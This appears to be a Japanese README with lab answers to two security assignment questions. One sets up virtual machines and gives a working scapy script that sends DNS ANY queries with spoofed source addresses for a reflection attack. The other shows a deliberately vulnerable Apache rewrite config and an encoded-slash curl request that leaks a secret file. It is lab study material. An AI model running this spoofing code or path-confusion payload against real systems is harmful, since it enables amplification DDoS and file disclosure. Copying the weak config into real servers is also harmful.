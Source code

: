 # Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート53番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。

入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側で下記のスクリプトをrootで実行します。

```python
from scapy.all import *
import random
import time

def send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, qname, count=5, interval=1.0):
    print(f"[+] Sending {count} spoofed DNS ANY queries with EDNS0 for '{qname}' from {victim_ip} to {dns_server_ip}")

    for i in range(count):
        transaction_id = random.randint(1, 65535) 
        sport=53
        # IP + UDPヘッダ
        ip = IP(src=victim_ip, dst=dns_server_ip)
        udp = UDP(sport=sport, dport=53)

        # DNSクエリ + EDNS0（OPT）レコード付き
        dns = DNS(
            id=transaction_id,
            rd=1,
            qd=DNSQR(qname=qname, qtype=255),  # qtype=255 → ANY
            ar=DNSRROPT(rclass=4096, rdlen=0)
        )

        pkt = ip / udp / dns

        print(f"[*] Sending packet {i+1}/{count} (TXID=0x{transaction_id:04x}, SPORT={sport})")
        send(pkt, verbose=0)
        time.sleep(interval)

# ====== 実行パラメータ ======
victim_ip = "192.168.11.100"       # 偽装された送信元IP（被害者）
dns_server_ip = "192.168.11.53"    # DNSサーバIP（攻撃対象）
domain = "takkesan.com"            # 問い合わせ対象ドメイン
send_count = 5                     # クエリ送信回数
send_interval = 0.5                # 送信間隔（秒）

# ====== 実行 ======
send_spoofed_dns_any_edns0(victim_ip, dns_server_ip, domain, count=send_count, interval=send_interval)
```

# 結果の概要
Wiresharkの検索欄にdnsと入力してフィルターをかけています。


通常の問い合わせの場合
normal_request_by_dig.pcapng
![alt text](image-1.png)

IPアドレスを詐称して攻撃する場合
dns_reflection.pcapng
![alt text](image.png)

結果のまとめ、考察については応募課題のエントリーフォームに入力しています。

---

# Q.4 (Cofussion Attack)

バージョン: Apache HTTPサーバー 2.4.59
Docker: Docker version 28.1.1, build 4eba377327

httpd.conf
```bash
# User configuration
# 1) エンコードされたスラッシュを許可しデコードさせる
AllowEncodedSlashes On

# 2) 任意閲覧を許可するディレクトリ
<Directory "/var/user">
    Require all granted
</Directory>

# 3) 既存の RewriteRule はそのまま
RewriteEngine on
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"
```

## 結果の概要

通常のリクエストとConfusion攻撃を利用したリクエストの両方を試した結果です。

```bash
curl http://localhost:8080/user/orange
    profile.yml

curl http://localhost:8080/user/orange%2Fsecret.yml%3F
    password: super_secret

curl http://localhost:8080/user/orange/secret.yml
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    </body></html>
```

結果のまとめ、考察については応募課題のエントリーフォームに入力しています。
